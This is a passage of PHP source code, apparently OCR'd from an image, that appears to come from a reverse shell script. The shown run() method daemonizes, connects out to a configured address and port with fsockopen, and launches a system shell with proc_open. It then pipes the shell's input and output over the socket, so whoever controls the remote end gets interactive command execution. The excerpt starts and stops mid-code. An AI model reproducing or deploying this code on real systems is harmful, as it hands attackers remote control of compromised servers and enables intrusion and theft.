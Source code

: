 ```php
            // we need to discard the data from the stream
            while ($this->clen > 0 && ($bytes = $this->clen >= $this->buffer ? $this->buffer : $this->clen) && $this->read($input, $iname, $bytes)) {
                $this->clen -= $bytes;
                $size -= $bytes;
            }
        }
        while ($size > 0 && ($bytes = $size >= $this->buffer ? $this->buffer : $size) && ($data = $this->read($input, $iname, $bytes)) && $this->write($output, $oname, $data)) {
            $size -= $bytes;
            $this->dump($data); // script's dump
        }
    }
    public function run() {
        if ($this->detect() && !$this->daemonize()) {
            $this->settings();

            // ----- SOCKET BEGIN -----
            $socket = @fsockopen($this->addr, $this->port, $errno, $errstr, 30);
            if (!$socket) {
                echo "SOC_ERROR: {$errno}: {$errstr}\n";
            } else {
                stream_set_blocking($socket, false); // set the socket stream to non-blocking mode | returns 'true' on Windows OS

                // ----- SHELL BEGIN -----
                $process = @proc_open($this->shell, $this->descriptorspec, $pipes, null, null);
                if (!$process) {
                    echo "PROC_ERROR: Cannot start the shell\n";
                } else {
                    foreach ($pipes as $pipe) {
                        stream_set_blocking($pipe, false); // set the shell streams to non-blocking mode | returns 'false' on Windows OS
                    }

                    // ----- WORK BEGIN -----
                    $status = proc_get_status($process);
                    @fwrite($socket, "SOCKET: Shell has connected! PID: " . $status['pid'] . "\n");
                    do {
						$status = proc_get_status($process);
                        if (feof($socket)) { // check for end-of-file on SOCKET
                            echo "SOC_ERROR: Shell connection has been terminated\n"; break;
                        } else if (feof($pipes[1]) || !$status['running']) {                 // check for end-of-file on STDOUT or if process is still running
                            echo "PROC_ERROR: Shell process has been terminated\n";   break; // feof() does not work with blocking streams
                        }                                                                    // use proc_get_status() instead
                        $streams = array(
                            'read'   => array($socket, $pipes[1], $pipes[2]), // SOCKET | STDOUT | STDERR
                            'write'  => null,
                            'except' => null
                        );
                        $num_changed_streams = @stream_select($streams['read'], $streams['write'], $streams['except'], 0); // wait for stream changes | will not wait on Windows OS
                        if ($num_changed_streams === false) {
                            echo "STRM_ERROR: stream_select() failed\n"; break;
                        } else if ($num_changed_streams > 0) {
                            if ($this->os === 'LINUX') {
                                if (in_array($socket  , $streams['read'])) { $this->rw($socket  , $pipes[0], 'SOCKET', 'STDIN' ); } // read from SOCKET and write to STDIN
```